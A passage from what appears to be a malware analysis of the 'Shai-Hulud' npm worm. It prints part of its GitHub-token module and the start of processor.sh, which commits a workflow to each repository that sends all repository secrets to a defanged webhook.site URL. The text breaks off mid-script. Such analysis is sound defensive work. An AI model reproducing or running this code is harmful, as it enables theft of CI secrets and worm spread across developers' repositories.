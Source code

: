 ```
    } catch (err) {
      return null;
    }
  }

  isAuthenticated() {
    return !!this.token;
  }

  getCurrentToken() {
    return this.token;
  }

  async getOrgs() {
    try {
      const resp = await this.octokit.rest.orgs.listForAuthenticatedUser({ per_page: 100 });
      return resp.data.map(org => org.login);
    } catch (err) {
      return [];
    }
  }
}

module.exports = { GitHubModule };
```

###### processor.sh

First, the processor.sh script defines several variables and, most importantly, creates a malicious workflow designed to exfiltrate all repository secrets to the URL:
https[://]webhook[.]site/bb8ca5f6-4175-45d2-b042-fc9ebb8170b7

<img src="/static/NPM/image-3.png" alt="drawing" width="1000"/>

It then proceeds to check the scope of the user's access and enumerate all available repositories:

<img src="/static/NPM/image-5.png" alt="drawing" width="1000"/>

<img src="/static/NPM/image-4.png" alt="drawing" width="1000"/>

And it creates a new branch and commits the malicious workflow file to the repositories:

<img src="/static/NPM/image-6.png" alt="drawing" width="1000"/>

Also a behavior that can be seen in some users repositories

<img src="/static/NPM/work.png" alt="drawing" width="1000"/>

Full code:
```
#!/bin/bash

# Check if PAT is provided
if [ $# -eq 0 ]; then
    echo "Error: GitHub Personal Access Token required as first argument"
    echo "Usage: $0 <GITHUB_PAT>"
    exit 1
fi

GITHUB_TOKEN="$1"
API_BASE="https://api.github.com"
BRANCH_NAME="shai-hulud"
FILE_NAME=".github/workflows/shai-hulud-workflow.yml"

FILE_CONTENT=$(cat <<'EOF'
```